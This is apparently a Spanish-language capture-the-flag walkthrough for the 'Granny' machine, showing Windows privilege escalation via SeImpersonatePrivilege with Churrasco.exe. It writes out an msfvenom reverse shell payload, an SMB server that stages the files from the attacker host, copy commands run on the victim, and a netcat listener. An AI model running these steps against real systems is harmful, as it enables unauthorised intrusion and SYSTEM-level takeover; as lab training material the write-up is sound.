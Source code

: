 #churrascoexe

----
# Requisitos:

Tiene que estar activado el *SeImpersonatePrivilege* que lo vamos a ver con [[whoami]] con el comando `whoami /all`


-----

Usamos [[whoami]] con el comando `whoami /all`

![[Granny10.png]]
Vemos que *SeImpersonatePrivilege* esta activado
Se podria hacer un JuicyPotato pero como es un windows muy viejo vamos a usar la version anterior que es la de [[Churrasco.exe]]
Descargamos el exploit desde este [repositorio](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-012/pr.exe)


### Con [[msfvenom]] vamos a crear el ejecutable *exploit.exe* para enviarnos una [[Reverse shell]]

```shell
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 LPORT=500 -f exe -o exploit.exe
```
![[Granny19.png]]



Desde nuestra maquina de atacante, donde tenemos el ejecutable del [[Churrasco.exe]] vamos a levantar un [[impacket-smbserver]] con el comando `impacket-smbserver smbfolder $(pwd) -smb2support`
![[Granny18.png]]

Vamos a crear una carpeta llamada */tmp* en *C:* para poder tener permisos de escritura sin ningun tipo de problemas
Y desde la maquina victima vamos a descargar los archivos con `copy \\10.10.16.15\smbfolder\exploit.exe .` y `copy \\10.10.16.15\smbfolder\churrasco.exe .`
![[Granny15.png]]

Ejecutamos el [[Churrasco.exe]] pasandole el *exploit.exe* que creamos para enviarnos una [[Reverse shell]] con [[msfvenom]]

![[Granny14.png]]
Mientras estamos en escucha con [[rlwrap nc -lvnp 443]] con el comando `rlwrap nc -nlvp 500` para enviarnos una [[Reverse shell]]
![[Granny12.png]]
Ya elevamos nuestro privilegio al maximo y podemos ver las flags